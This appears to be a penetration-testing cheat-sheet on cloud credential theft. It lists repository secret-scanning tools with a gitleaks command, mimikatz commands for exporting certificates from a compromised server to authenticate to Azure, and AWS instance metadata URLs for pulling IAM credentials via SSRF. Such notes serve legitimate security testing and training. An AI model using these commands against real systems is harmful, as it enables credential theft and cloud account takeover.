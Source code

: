 ## Key disclosure in public repositories
- Scavange repos for keys
- Find keys in realtime: https://github.com/eth0izzle/shhgit
- Tools for finding secrets
  - Gitleaks https://github.com/zricethezav/gitleaks
  - Gitrob https://github.com/michenriksen/gitrob
  - Truffle hog https://github.com/dxa4481/truffleHog

### Gitleaks
- https://github.com/zricethezav/gitleaks

#### Search for secrets
```
./gitleaks detect -v source <DIRECTORY> --report-path gitleaks-report.json
```

#### Use web browser to view the commit
```
https://github.com/[git account]/[repo name]/commit/[commit ID]
```

## Reused access 
- certs as private keys on web servers
1. Comprimise web server
2. Extract certificate with mimkatz
3. Use it to authenticate to Azure
```
mimikatz# crypto::capi
mimikatz# privilege::debug
mimikatz# crypto::cng
mimikatz# crypto::certificates /systemstore:local_machine /store:my /export
```

### AWS Instance Metadata
- Metadata endpoint is hosted on a non routable IP adress at 169.254.169.254
- Can contain access/secret keys to AWS and IAM credentials
- Server compromise or SSRF vulnerabilities might allow remote attackers to reach it.
- IAM credentials can be stored here ```http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>```
- New version requeres token, a put request is send and then responded to with a token. Then that token can be used to query data

#### Instance Metadata Service URL
```
http://169.254.169.254/latest/meta-data
```

#### Additional IAM creds possibly available here

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>
```
